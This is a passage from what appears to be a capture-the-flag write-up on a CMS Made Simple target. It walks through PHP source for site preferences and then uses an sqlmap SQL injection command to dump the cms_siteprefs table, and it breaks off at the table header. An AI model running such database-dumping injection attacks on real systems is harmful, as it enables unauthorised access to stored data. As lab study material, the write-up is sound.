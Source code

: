 
The `cms_siteprefs` function `get` pulls it from a cache object:

    
    
        /**    
         * Retrieve a site preference    
         *    
         * @param string $key The preference name    
         * @param string $dflt Optional default value    
         * @return string    
         */    
        public static function get($key,$dflt = '')    
        {    
            $prefs = global_cache::get(__CLASS__);    
            if( isset($prefs[$key]) )  return $prefs[$key];    
            return $dflt;    
        }    
    

It is passing in the `__CLASS__` variable, which will be `cms_siteprefs`. The
class’ `setup` function also calls `self::_read()`:

    
    
        private static function _read()    
        {    
            $db = CmsApp::get_instance()->GetDb();    
        
            if( !$db ) return;    
            $query = 'SELECT sitepref_name,sitepref_value FROM '.CMS_DB_PREFIX.'siteprefs';    
            $dbr = $db->GetArray($query);    
            if( is_array($dbr) ) {    
                $_prefs = array();    
                for( $i = 0, $n = count($dbr); $i < $n; $i++ ) {    
                    $row = $dbr[$i];    
                    $_prefs[$row['sitepref_name']] = $row['sitepref_value'];    
                }    
                return $_prefs;    
            }    
        }    
    

It is connecting to the DB and pulling `[prefix]siteprefs`. Given that all the
tables in that DB start with `cms_`, that seems like a reasonable place to
start.

When I dump that table with `sqlmap -r logs.php.request --dump -D cmsmsdb -T
cms_siteprefs`, there are 37 rows, but the first one is what I need:

    
    
    Database: cmsmsdb
    Table: cms_siteprefs
    [37 entries]
    +---------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
    | sitepref_name                               | sitepref_value                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |